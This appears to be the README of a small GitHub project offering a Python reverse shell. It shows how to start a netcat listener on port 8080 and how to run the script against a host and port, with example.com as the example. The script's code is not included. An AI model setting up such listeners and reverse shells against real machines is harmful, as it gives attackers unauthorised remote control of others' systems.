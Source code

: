 # bash_rev_shell
Simple reverse shell in python

# Usage

First run listener on machine where you want to access revers shell.
for example:
```
nc -l -p 8080 -vvv -k
```

```
./rev_shell.py

Err: Something went wrong. Did you check usage ?
USAGE: ./rev_shell.py <ip_or_fqdn> <port_number>
 ```
 
 # Example:
 ```
 ./rev_shell.py example.com 8080
```
